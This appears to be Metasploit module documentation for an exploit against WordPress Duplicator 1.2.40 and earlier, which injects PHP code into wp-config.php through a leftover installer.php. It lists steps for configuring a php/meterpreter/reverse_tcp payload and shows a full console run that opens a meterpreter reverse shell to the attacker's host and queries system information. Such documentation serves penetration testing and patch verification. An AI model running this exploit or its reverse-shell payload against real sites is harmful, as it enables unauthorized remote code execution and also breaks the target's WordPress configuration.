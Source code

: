 Duplicator by Snap Creek is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the `installer.php` script: `installer-backup.php`
  * A SQL script that will be used to restore the database content: `database.sql`
* An installer PHP script to restore the archive `installer.php`

When the `installer.php` completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* `database.sql` 
* `installer-backup.php`
* `installer-data.sql` 
* `installer-log.txt`
* `installer.php`

WARNING: exploiting the vulnerability will overwrite the wp-config.php file, breaking the WordPress instance.

## Vulnerable application

Install a vulnerable version of [WordPress Duplicator (<= 1.2.40)](https://downloads.wordpress.org/plugin/duplicator.1.2.40.zip) and create a backup.
Put the `install.php` and archive files on a clean web server.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/wp_duplicator_code_inject`
3. Set the `RHOST`.
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Debian 9 running WordPress 4.9.8 with Duplicator 1.2.40

```
msf5 > use exploit/multi/php/wp_duplicator_code_inject
msf5 exploit(multi/php/wp_duplicator_code_inject) > set rhosts 192.168.37.247
rhosts => 192.168.37.247
msf5 exploit(multi/php/wp_duplicator_code_inject) > set targeturi /wordpress/installer.php
targeturi => /wordpress/installer.php
msf5 exploit(multi/php/wp_duplicator_code_inject) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/php/wp_duplicator_code_inject) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Checking if the wp-config.php file already exists...
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (38247 bytes) to 192.168.37.247
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.247:1251) at 2018-12-11 11:46:16 -0600
[*] Attempting to recreate wp-config file...
[*] Found archive name 20181127_test_site_126e49aaa44976fa5226181127215223_archive.zip
[*] Successfully created the wp-config.php file!

meterpreter > sysinfo
Computer    : WIN-0FAJA14JLP4
OS          : Windows NT WIN-0FAJA14JLP4 6.1 build 7601 (Windows 7 Enterprise Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```

